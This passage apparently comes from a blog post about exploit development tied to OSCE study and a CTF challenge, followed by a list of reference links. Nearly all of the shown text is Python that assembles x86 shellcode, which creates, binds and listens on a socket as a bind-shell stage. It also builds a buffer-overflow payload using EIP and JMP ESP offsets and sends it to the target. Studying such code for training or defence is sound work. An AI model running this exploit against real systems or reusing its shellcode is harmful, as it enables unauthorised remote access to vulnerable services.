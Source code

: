 ``` python
block1  = ""
# Adjust the stack to prevent it from breaking things in our shellcode
block1 += "\x83\xEC\x7C"                       # SUB ESP, 0x7C
# Get the address of `socket` into EBX
block1 += "\xBB\x44\x34\x34\x40"               # MOV EBX,<offsetted address>
block1 += "\xC1\xEB\x08"                       # SHR EBX, 0x8
# set up the stack for the call to `socket`
block1 += "\xB0\x06"                           # MOV AL, 0x6
block1 += "\x50"                               # PUSH EAX
block1 += "\xB0\x01"                           # MOV AL, 0x1
block1 += "\x50"                               # PUSH EAX
block1 += "\x40"                               # INC EAX
block1 += "\x50"                               # PUSH EAX
# invoke the call to `socket`
block1 += "\xFF\xD3"                           # CALL EBX
# save our socket handle
block1 += "\x89\xC7"                           # MOV EDI, EAX
# Find sockaddr
block1 += "\x89\xD9"                           # MOV ECX, EBX
block1 += "\xB5\x74"                           # MOV CH, 0x74
# adjust the port number by bumping it up one to 22
block1 += "\xFE\x41\x03"                       # INC BYTE [ECX+3]
# adjust the call pointer to reference `bind`
block1 += "\xB3\x54"                           # MOV BL, 0x54
# prepare the parameters on the stack for the `bind` call
block1 += "\x6A\x10"                           # PUSH 0x10
block1 += "\x51"                               # PUSH ECX
block1 += "\x50"                               # PUSH EAX
# invoke the call to `bind`
block1 += "\xFF\xD3"                           # CALL EBX
# adjust the call pointer to reference `listen`
block1 += "\xB3\x5C"                           # MOV BL, 0x5C
# prepare the parameters on the stack for the `listen` call
block1 += "\x6A\x7F"                           # PUSH 0x7F
block1 += "\x57"                               # PUSH EDI
# invoke the call to `listen`
block1 += "\xFF\xD3"                           # CALL EBX
# set a breakpoint so we can see what's going on
block1 += "\xCC"

command  = ""
command += "Z" * (offsets['SC'] - len(command))
command += "B" * (offsets['EIP'] - len(command))
command += struct.pack("<L", target['JMPESP'])
command += "C" * (offsets['ESP'] - len(command))
command += block1
command += "E" * (max_size - len(command))

print "[*] Command {0} chars...".format(len(command))
pwn(command)
```


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux